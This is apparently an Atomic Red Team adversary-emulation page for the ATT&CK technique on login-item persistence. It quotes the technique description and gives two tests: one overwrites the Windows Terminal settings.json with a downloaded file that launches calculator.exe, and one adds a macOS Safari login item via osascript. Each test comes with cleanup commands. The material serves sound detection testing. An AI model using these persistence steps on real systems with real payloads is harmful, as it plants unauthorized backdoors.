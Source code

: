 # T1547.015 - Boot or Logon Autostart Execution: Login Items
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/015)
<blockquote>Adversaries may add login items to execute upon user login to gain persistence or escalate privileges. Login items are applications, documents, folders, or server connections that are automatically launched when a user logs in.(Citation: Open Login Items Apple) Login items can be added via a shared file list or Service Management Framework.(Citation: Adding Login Items) Shared file list login items can be set using scripting languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002), whereas the Service Management Framework uses the API call <code>SMLoginItemSetEnabled</code>.

Login items installed using the Service Management Framework leverage <code>launchd</code>, are not visible in the System Preferences, and can only be removed by the application that created them.(Citation: Adding Login Items)(Citation: SMLoginItemSetEnabled Schroeder 2013) Login items created using a shared file list are visible in System Preferences, can hide the application when it launches, and are executed through LaunchServices, not launchd, to open applications, documents, or URLs without using Finder.(Citation: Launch Services Apple Developer) Users and applications use login items to configure their user environment to launch commonly used services or applications, such as email, chat, and music applications.

Adversaries can utilize [AppleScript](https://attack.mitre.org/techniques/T1059/002) and [Native API](https://attack.mitre.org/techniques/T1106) calls to create a login item to spawn malicious executables.(Citation: ELC Running at startup) Prior to version 10.5 on macOS, adversaries can add login items by using [AppleScript](https://attack.mitre.org/techniques/T1059/002) to send an Apple events to the “System Events” process, which has an AppleScript dictionary for manipulating login items.(Citation: Login Items AE) Adversaries can use a command such as <code>tell application “System Events” to make login item at end with properties /path/to/executable</code>.(Citation: Startup Items Eclectic)(Citation: hexed osx.dok analysis 2019)(Citation: Add List Remove Login Items Apple Script) This command adds the path of the malicious executable to the login item file list located in <code>~/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm</code>.(Citation: Startup Items Eclectic) Adversaries can also use login items to launch executables that can be used to control the victim system remotely or as a means to gain privilege escalation by prompting for user credentials.(Citation: objsee mac malware 2017)(Citation: CheckPoint Dok)(Citation: objsee netwire backdoor 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence by modifying Windows Terminal profile](#atomic-test-1---persistence-by-modifying-windows-terminal-profile)

- [Atomic Test #2 - Add macOS LoginItem using Applescript](#atomic-test-2---add-macos-loginitem-using-applescript)


<br/>

## Atomic Test #1 - Persistence by modifying Windows Terminal profile
Modify Windows Terminal settings.json file to gain persistence. [Twitter Post](https://twitter.com/nas_bench/status/1550836225652686848)

**Supported Platforms:** Windows


**auto_generated_guid:** ec5d76ef-82fe-48da-b931-bdb25a62bc65





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calculator | Test program used to imitate a maliciously called program. | String | calculator.exe|
| settings_json_def | Default file for Windows Terminal to replace the default profile with a backdoor to call another program. | Path | ~&#92;AppData&#92;Local&#92;Packages&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;LocalState&#92;settings.json|
| settings_json_tmp | Temp file for Windows Terminal. | Path | ~&#92;AppData&#92;Local&#92;Temp&#92;settings.json|
| wt_exe | Windows Terminal executable. | Path | ~&#92;AppData&#92;Local&#92;Microsoft&#92;WindowsApps&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;wt.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
mv #{settings_json_def} #{settings_json_tmp}
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.015/src/settings.json?raw=true" -OutFile "#{settings_json_def}"
wt.exe
```

#### Cleanup Commands:
```powershell
mv -Force #{settings_json_tmp} #{settings_json_def}
taskkill /F /IM "#{calculator}" > $null
```



#### Dependencies:  Run with `powershell`!
##### Description: Windows Terminal must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path #{wt_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$(rm ~\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\StoreEdgeFD\installed.db -ErrorAction Ignore; Write-Output ""; $?) -and $(winget install --id=Microsoft.WindowsTerminal)
```




<br/>
<br/>

## Atomic Test #2 - Add macOS LoginItem using Applescript
Runs osascript on a file to create new LoginItem for current user.
NOTE: Will popup dialog prompting user to Allow or Deny Terminal.app to control "System Events"
Therefore, it can't be automated until the TCC is granted.
The login item launches Safari.app when user logs in, but there is a cleanup script to remove it as well.
In addition to the `osascript` Process Events, file modification events to
`/Users/*/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm` should be seen.

**Supported Platforms:** macOS


**auto_generated_guid:** 716e756a-607b-41f3-8204-b214baf37c1d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| scriptfile | path to Applescript source to add Safari LoginItem. | String | PathToAtomicsFolder/T1547.015/src/add_login_item.osa|
| cleanup_script | path to Applescript source to delete Safari LoginItem. | String | PathToAtomicsFolder/T1547.015/src/remove_login_item.osa|


#### Attack Commands: Run with `bash`! 


```bash
osascript #{scriptfile}
```

#### Cleanup Commands:
```bash
osascript #{cleanup_script}
```





<br/>
